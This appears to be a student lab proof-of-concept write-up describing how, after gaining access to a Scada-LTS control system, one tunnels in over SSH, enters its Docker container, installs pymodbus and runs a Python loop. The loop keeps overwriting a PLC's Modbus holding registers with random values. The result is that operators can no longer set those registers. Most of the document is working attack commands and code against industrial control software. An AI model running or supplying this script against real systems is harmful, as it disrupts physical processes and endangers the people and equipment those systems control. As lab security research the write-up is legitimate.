


# Change Modbus Registers Proof of Concept Vulnerability

After the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

- End result

The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

Figure 1: Modbus registers being continuously overwritten.



Figure 2: ScadaLTS environment visibily showing values that are not in line with its use case.



Figure 3: In ScadaLTS the values are now also seem to be changing in the data resources tab.


